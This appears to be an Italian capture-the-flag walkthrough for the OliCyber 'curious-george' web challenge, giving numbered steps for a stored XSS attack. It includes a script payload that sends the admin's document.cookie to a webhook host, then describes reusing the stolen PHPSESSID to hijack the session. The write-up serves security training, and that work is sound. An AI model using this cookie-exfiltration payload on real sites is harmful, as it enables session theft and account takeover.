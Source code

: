 
1) Creare un account e loggarsi
2) Copiare l'URL della vostra pagina (http://curious-george.challs.olicyber.it?id=your-id
3) Cliccare su edit profile
4) Inserire il seguente payload (prendere l'URL da webhook.site, attenzione ad inserire l'URL giusto e non quello con dentro #!)
<script>
window.location.href = "http://yourwebhook.site/?cookie=" + document.cookie
</script>
Questo payload ci permette di redirectare l'admin al nostro webhook, inserendo il suo cookie in un query parameter
5) Cliccare su "update"
6) Andare su http://curious-george.challs.olicyber.it/bug.php
7) Inserire l'URL della vostra pagina
8) Eseguire il file pow-modified.py e incollare sulla pagina /bug.php ciò che printa lo script python
9) Clicca submit
10) Sul webhook troveremo una richiesta simile:
http://webhook.site/3c132b32-cbda91f-bc329af-9f82c22?cookie=PHPSESSID=fshaonidmsaoceuwyqeiwq
11) Prendere quel cookie e inserirlo al posto del cookie corrente (si può sostituire sia da webhook, sia dai DevTools)
12) Visitare http://curious-george.challs.olicyber.it/index.php